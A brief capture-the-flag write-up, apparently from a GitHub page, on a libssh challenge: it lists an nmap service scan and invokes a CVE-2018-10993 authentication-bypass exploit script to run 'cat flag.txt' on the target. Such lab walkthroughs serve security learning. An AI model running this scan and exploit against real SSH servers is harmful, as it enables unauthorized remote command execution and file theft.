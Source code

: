 # CyberSecurity



libssh

Flag format: CTF{sha256}
libssh is a C library that enables you to write a program that uses the SSH protocol. With it, you can remotely execute programs, transfer files, or use a secure and transparent tunnel for your remote programs.
using Nmap to scan the port 
nmap –sV –sC –p port ip -Pn
after scanning we can use CVE-2018-10993 libSSH authentication bypass exploit
cve-2018-10993.py ip -p port -31367 -c "cd ..;cat flag.txt"
ctf



